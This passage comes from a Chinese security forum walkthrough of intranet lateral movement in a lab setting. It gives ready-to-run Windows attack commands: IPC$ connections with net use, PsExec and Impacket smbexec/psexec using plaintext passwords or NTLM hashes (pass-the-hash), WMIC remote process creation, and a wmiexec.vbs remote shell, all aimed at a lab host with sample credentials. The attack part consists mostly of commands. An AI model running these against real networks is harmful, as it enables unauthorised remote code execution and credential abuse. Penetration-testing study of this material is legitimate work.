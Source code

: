 ##
[](https://bbs.pediy.com/thread-268289.htm#3.2%E9%80%9A%E8%BF%87%E6%98%8E%E6%96%87%E6%88%96hash%E5%88%A9%E7%94%A8smb%E6%9C%8D%E5%8A%A1%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)3.2通过明文或hash利用SMB服务进行横向移动

官方Psexec第一种利用方法：可以先有ipc链接，再用psexec运行相应的程序：  
Net use \192.168.202.148\ipc$ zxcvbnm123 /user:test\Administrator  
Psexec \192.168.202.148 -accepteula -s cmd  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_47G2K567FFVFDHS.png)  
官方Psexec第二种利用方法：不用建立ipc连接，直接使用密码或hash进行传递  
Psexec \192.168.202.148 -u Administrator -p zxcvbnm123 -s cmd  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_PUTCKWD8XHJ79QN.png)  
PsExec -hashes :fac5d668099409cb6fa223a32ea493b6
test.com/Administrator@192.168.202.148 "whoami" (官方执行不了)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_8PQFGJR5NG6S9ST.png)



使用第三方Impacket工具包中的smbexec和psexec（使用方法同官方一致）  
使用Impacket第三方PsExec，命令与官方的一致：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_QSP37S3AR7TUPXH.png)  
使用Impacket第三方Smbexec：  
Smbexec test/Administrator:zxcvbnm123@192.168.202.148  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ABPK7AT2MU8XGDR.png)  
Smbexec -hashes :fac5d668099409cb6fa223a32ea493b6
test/Administrator@192.168.202.148  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TGTZ96NTS6U8EYB.png)

## [](https://bbs.pediy.com/thread-268289.htm)3.3 利用WMI服务进行横向移动

WMI利用135端口，支持明文和hash两种方式进行身份验证，且系统日志不记录。  
第一种：使用系统自带的WMIC明文传递执行相应命令，但执行的结果不回显（先管理员账户登录）  
Wmic /node:192.168.202.148 /user:Administrator /password:zxcvbnm123 process
call create “cmd.exe /c ipconfig >C:/1.txt”  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_M54H3UEQUZPHS4B.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_Q8Z2H9ETEAN9SQZ.png)



第二种：使用系统自带cscript明文传递执行反弹shell，执行结果有回显，现已被杀  
Cscript //nologo wmiexec.vbs /shell 192.168.202.148 Administrator zxcvbnm123
